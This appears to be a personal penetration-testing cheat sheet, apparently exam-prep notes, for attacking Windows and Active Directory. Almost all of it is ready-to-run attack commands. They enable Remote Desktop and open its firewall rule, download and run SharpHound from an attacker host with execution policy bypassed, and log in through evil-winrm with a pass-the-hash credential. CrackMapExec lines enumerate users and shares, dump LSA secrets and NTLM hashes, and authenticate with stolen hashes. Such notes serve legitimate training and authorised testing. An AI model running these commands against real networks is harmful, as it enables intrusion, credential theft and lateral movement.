 Windows: 

### open firewall
```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
```

### Bloodhound 

```
.\Sharphoun.exe -c all,group 

PS C:\Users\marcus> iwr -uri http://<ip>:8000/SharpHound.ps1 -Outfile SharpHound.ps1
iwr -uri http://<ip>:8000/SharpHound.ps1 -Outfile SharpHound.ps1

PS C:\Users\marcus> powershell -ep bypass

PS C:\Users\marcus> . .\SharpHound.ps1

PS C:\Users\marcus> Invoke-BloodHound -CollectionMethod All
```

EVIL-WinRM:

once you login with evil-winrm 

```bash
evil-winrm -i 192.168.173.165 -u 'svc_apache' -H 4FC1682833B24CF2225248D67DF7E618 -e "<kali-path>"

$Evil-WinRM PS C:\> Invoke-Binary

$Evil-WinRM PS C:\> Invoke-Binary <kali-Path> run <paramter> 
```

This will help to connect **`metasploit`** this is userfull

https://github.com/tedchen0001/OSCP-Notes/blob/master/AD.md

### Crackmapexec 

# Crackmapexec
```
crackmapexec smb <target> -u '' -p ''
crackmapexec smb <target> -u '' -p '' --users
crackmapexec smb 192.168.1.0/24 
crackmapexec smb target.txt
crackmapexec smb target.txt -u <usernmae> -p <password>

#extract password policy 
crackmapexec smb target.txt -u <usernmae> -p <password> --pass-pol

#enumarte shares
crackmapexec smb target.txt -u <usernmae> -p <password> --shares

#check for loggedon users 
crackmapexec smb target.txt -u <usernmae> -p <password> --loggedon-users

#extract the NTLM hashes 
crackmapexec smb target.txt -u <usernmae> -p <password>  --lsa

#using hash (. dot means local) 
crackmapexec smb target.txt -u Administrator -H <hash> -d .
```

